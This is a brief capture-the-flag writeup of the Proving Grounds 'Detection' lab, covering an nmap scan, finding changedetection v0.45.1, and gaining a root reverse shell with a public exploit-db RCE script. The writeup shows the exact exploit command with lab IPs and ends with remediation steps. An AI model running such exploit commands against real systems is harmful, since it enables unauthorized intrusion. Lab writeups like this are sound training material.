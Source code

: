 ```yaml
---
layout: writeup
title: Detection - Proving Grounds
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the Detection Box from Proving Grounds
image: # /assets/images/Detection/Detection.png
fig-caption: # Add figcaption (optional)
tags: [Linux, changedetection]
---
```


Here's a new box from Proving Grounds. It's not on TJ Null's OSCP list or LainKusanagi's list, but it was new so I figured I'd try it out. As usual we get started with an nmap scan: `sudo nmap -p- -sC -A -v 192.168.197.97 --open -o nmap`. It reveals two open ports - 22 and 5000. Because 22 is often for admin of these labs, we can just check out 5000 in the URL of the browser, and we see this page:

![Detection1.png](/assets/images/Detection/Detection1.png){: .responsive-image}

We can see that the version we appear to be working with a web app called "changedetection" and it looks like version `v0.45.1` in the top right corner. I've never heard of this app, so I look to go check it out, and I also see that this is an RCE exploit availability for this `< 0.45.20` on exploit-db. We can see the required arguments below, taking note that the default port of the listener is 4444. 

![Detection2.png](/assets/images/Detection/Detection2.png){: .responsive-image}

After that we start a listener on port 4444 and run this full command (where 52027.py is the exploit found in searchsploit): `python3 52027.py --url http://192.168.197.97:5000/ --ip 192.168.45.239`.

![Detection3.png](/assets/images/Detection/Detection3.png){: .responsive-image}

And we get a shell, and it's root. Easy peasy. 

### Lessons Learned
Not a whole lot going on here. 

### Remediation Steps
1. Update to a different version of changedetection. 
2. Run it with something besides the root account, such as a service account. 